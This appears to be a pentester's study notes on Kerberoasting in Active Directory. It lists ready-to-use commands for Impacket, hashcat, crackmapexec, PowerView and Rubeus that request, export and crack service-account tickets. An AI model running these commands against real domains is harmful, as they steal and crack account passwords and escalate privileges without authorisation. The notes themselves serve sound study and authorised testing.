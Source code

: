 # Kerberoasting

Kerberoasting is a lateral movement and privilege escalation technique used in 
Active Directory environments. This attack specifically targets Service Principal 
Name (SPN) accounts.

## How It Works

- Services in Active Directory run under the context of service accounts, which
 often have elevated privileges.
- Any authenticated user can request a Kerberos ticket for these service accounts.
- The ticket (TGS-REP) is encrypted using the account's NTLM hash. This allows
 attackers to perform a brute-force attack on the ticket to recover the cleartext password.

## Requirements

To perform a Kerberoasting attack, you need one of the following:
- Cleartext password or NTLM hash of an account.
- A shell in the context of a domain user account.
- SYSTEM-level access on a domain-joined host.

## Performing the Attack

### From a Non-Domain Joined Linux Host

1. Use valid domain user credentials.

### From a Domain-Joined Linux Host

1. Execute commands as root after retrieving the keytab file.

### From a Domain-Joined Windows Host

1. Authenticate as a domain user.
2. Use a shell in the context of a domain account.

### From a Non-Domain Joined Windows Host

1. Use `runas /netonly` with valid domain credentials.

### As SYSTEM on a Domain-Joined Windows Host

1. Utilize SYSTEM-level access to execute commands.


## Attacking from Linux

```shell
# Retrieve SPNs
GetUserSPNs.py -dc-ip $DC_IP $DOMAIN/<username>
# Request tickets and save to file
GetUserSPNs.py -dc-ip $DC_IP $DOMAIN/<username> -request -outputfile tgs
GetUserSPNs.py -dc-ip $DC_IP $DOMAIN/<username> -request-user target_user
# Crack tickets using hashcat
hashcat -m 13100 <ticket_file> <wordlist_path>   # RC4 encryption
hashcat -m 19700 <ticket_file> <wordlist_path>   # AES encryption
# Validate credentials on the domain controller
crackmapexec smb $DC_IP -u <username> -p <password>
```

## Attacking from Windows

### Using PowerView

```shell
# Import PowerView module
Import-Module .\PowerView.ps1
# Retrieve SPNs
Get-DomainUser * -spn | Select-Object samaccountname
# Request ticket for a user
Get-DomainUser -Identity <username> | Get-DomainSPNTicket -Format Hashcat
# Get tickets for all users and export to CSV
Get-DomainUser * -SPN | Get-DomainSPNTicket -Format Hashcat | \
Export-Csv .\ilfreight_tgs.csv -NoTypeInformation
```

### Using Rubeus

```shell
# Retrieve stats
Rubeus.exe kerberoast /stats
# Request ticket for a user (RC4 encryption)
Rubeus.exe kerberoast /tgtdeleg /user:<username> /nowrap
```

## Hashing Algorithm

- Kerberoasting tools typically request `RC4 encryption` because it
 is weaker and faster to crack.
- RC4 hashes begin with `$krb5tgs$23$*`.
- AES-256 encrypted hashes start with `$krb5tgs$18$*` and take longer to crack.

```shell
# Check encryption type for a user
Get-DomainUser <username> -Properties samaccountname, \
serviceprincipalname, msds-supportedencryptiontypes
```

- If `msds-supportedencryptiontypes` is set to 0, RC4 encryption is used. If set to
 24, only AES 128/256 encryption types are supported.

### Notes

- **Windows Server 2019:** Always provides tickets encrypted with the highest supported
 encryption level of the target account.
- **Windows Server 2016 or Earlier:** Attackers can request RC4 encrypted tickets even 
if AES is enabled.